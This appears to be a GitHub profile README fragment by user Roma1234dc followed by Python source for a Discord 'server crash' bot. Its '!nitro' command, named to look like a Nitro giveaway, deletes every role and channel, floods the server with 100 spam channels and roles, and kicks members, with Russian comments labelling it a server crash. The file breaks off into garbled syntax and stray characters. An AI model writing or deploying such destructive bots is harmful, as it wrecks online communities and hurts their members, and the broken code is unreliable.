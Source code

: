 - 👋 Hi, I’m @Roma1234dc
- 👀 I’m interested in ...
- 🌱 I’m 
You can click the Preview link to take a look at your changes.
--->
import discord
from discord.ext import commands
from discord import Permissions
import asyncio
import os
import discord, random, aiohttp, asyncio
from threading import Thread
import requests

intents = discord.Intents.default()
intents.members = True

bot = commands.Bot(command_prefix='!', intents=intents)

bot.remove_command("help")


@bot.command()
async def nitro(ctx):
    guild = ctx.message.guild
    with open('hacked.jpg', 'rb') as f:
        icon = f.read()
    

    await ctx.message.delete()

    for m in ctx.guild.roles:
        try:
            await m.delete(reason="Краш сервера")
        except:
            pass

    for channel in ctx.guild.channels:  # собираем
        try:
            await channel.delete(reason="Краш сервера")  # удаляем
        except:
            pass

    for _ in range(100):
        await guild.create_text_channel('crash-by-rc roma1234')

    for _ in range(100):
        await guild.create_role(name='crash-by-rc roma1234')

    for m in ctx.guild.members:
        try:
            await m.kick(reason="Краш сервера")
        except:",
                    
            except:
                pass


4UftE'


